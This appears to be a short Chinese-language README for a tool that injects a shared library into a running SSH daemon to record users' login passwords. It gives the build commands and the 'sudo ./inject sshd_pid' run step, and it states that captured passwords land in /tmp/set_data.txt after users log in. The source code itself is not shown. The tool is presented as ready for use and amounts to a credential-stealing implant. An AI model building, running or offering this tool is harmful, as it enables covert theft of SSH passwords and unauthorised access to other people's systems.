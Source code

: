 # what's this?

注入SSHD之后就能记录下密码或者做其他操作。

# how to use
指行
```
gcc -shared inject_got.c -ldl -fPIC -o test2.so

mv test2.so /tmp/hello.so

gcc sshdHooker.c utils.c -no-pie -g -o inject -ldl -lpthread

sudo ./inject sshd_pid
```

然后等待用户连接SSH并且登录成功，密码保存于/tmp/set_data.txt

# todo

 - 增加x86/arm支持
 - 自定义so路径
